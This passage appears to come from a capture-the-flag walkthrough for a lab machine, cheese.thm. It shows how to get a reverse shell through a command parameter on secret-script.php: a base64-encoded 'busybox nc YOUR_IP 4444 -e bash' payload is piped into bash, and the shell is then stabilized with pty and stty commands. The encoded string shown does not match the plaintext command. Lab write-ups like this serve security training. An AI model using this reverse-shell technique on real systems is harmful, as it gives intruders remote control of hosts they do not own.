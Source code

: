 ![exe_cmd_php](images/cmd_id.png)

3. Reverse shell:

Prepare the payload:
```bash
echo 'busybox nc YOUR_IP 4444 -e bash' | base64     

# YmFzaCAtaSAJiAvZGV2L3RjcC9ZT1VSX0lQLzQ0NDQgMD4mMQo=
```

Execute the reverse shell:

URL: `http://cheese.thm/secret-script.php?cmd=echo 'YmFzaCAtaSAJiAvZGV2L3RjcC9ZT1VSX0lQLzQ0NDQgMD4mMQo' | base64 -d | bash&file=[PAYLOAD]`

Set up a listener then run the page:

![Reverse_Shell](images/Reverse_Shell-ed.png)

Stabilizing the Shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z	#Ctrl+z

stty raw -echo && fg
```

